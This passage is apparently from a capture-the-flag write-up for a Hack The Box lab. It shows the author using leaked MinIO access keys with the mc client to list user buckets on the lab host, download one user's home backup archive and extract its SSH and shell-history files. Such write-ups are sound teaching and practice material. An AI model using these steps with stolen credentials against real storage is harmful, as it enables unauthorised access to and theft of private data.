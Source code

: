 So, let's access the **MinIO Cloud Storage** using **mc**. You can get the list of all **mc** commands from [here](https://min.io/docs/minio/linux/reference/minio-mc.html).

```bash 
$ ./mc alias set minio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0

Added `minio` successfully.
```

Now Lets list the content.

```bash
$ ./mc ls minio
[2023-11-07 23:59:15 EST]     0B askyy/
[2023-11-07 23:58:56 EST]     0B btanner/
[2023-11-07 23:58:33 EST]     0B emoneypenny/
[2023-11-07 23:58:22 EST]     0B gmallory/
[2023-11-07 19:08:01 EST]     0B guest/
[2023-11-07 23:59:05 EST]     0B jbond/
[2023-11-07 23:58:10 EST]     0B omansfield/
[2023-11-07 23:58:45 EST]     0B rsilva/
```

And we can see we have a list of users. Let's access the content of each user to see if we can find any useful data from it. All the other users have only one same file, **welcome.pdf**, except the **askyy** user, who has a **home_backup.tar.gz** file in its storage.

```bash
$ ./mc ls minio/askyy 
[2023-11-08 00:35:28 EST]  48KiB STANDARD Welcome.pdf
[2023-11-09 16:37:25 EST] 2.5KiB STANDARD home_backup.tar.gz
```
  
Let's download it using the `mc cp` command. It will download the file from the MinIO server to our local file system.

```bash
$ ./mc cp minio/askyy/home_backup.tar.gz .
..._backup.tar.gz: 2.48 KiB / 2.48 KiB 
```
 
The file has been downloaded successfully. Let's extract the contents from it using the **gunzip** and **tar** utilities of Linux.

```
$ gunzip home_backup.tar.gz 
$ tar -xvf home_backup.tar 
./
./.profile
./.bashrc
./.ssh/
./.ssh/authorized_keys
./.sudo_as_admin_successful
./.bash_history
./.bash_logout
./.cache/
./.cache/motd.legal-displayed
```
  